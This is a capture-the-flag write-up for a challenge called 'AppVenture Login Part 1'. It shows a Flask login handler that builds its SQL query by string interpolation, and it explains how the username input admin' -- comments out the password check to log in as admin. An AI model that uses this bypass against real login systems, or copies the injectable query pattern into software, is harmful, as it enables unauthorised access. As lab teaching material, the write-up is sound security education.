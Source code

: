 ```yaml
---
created: 2021-12-21T23:50
updated: 2024-06-10T23:41
---
```


## AppVenture Login Part 1

> Well, I haven't taken CS6131 yet but databases should be easy right??

From the description we can see the keyword databases, based on prior knownedge of the module CS6131, we can be pretty sure this is related to SQL.

Since the source operates on a simple template string SQL command, we can apply simple SQL injection and skip the password check.

```python
@app.route("/login", methods=["post"])
def login():
    username = request.form.get('username', default='', type=str)
    password = request.form.get('password', default='', type=str)
    users = db.execute(f"select id from users where name='{username}' and password='{password}'").fetchall()
    if users:
        return Response(flag1, mimetype='text/plain')
    return Response('Login failed', mimetype='text/plain')
```

In SQL, comments can be made with `--`

To skip the password check, we can simply input `admin' --` in username and leave password blank, which would result in the following command

`````sql
select id from users where name='admin' --' and password=''
`````

Everything behind `--` is ignored and we successfully log in as admin

### http://35.240.143.82:4208/login

```flag
flag{you_can_pass_cs6131_now}
```

Flag obtained
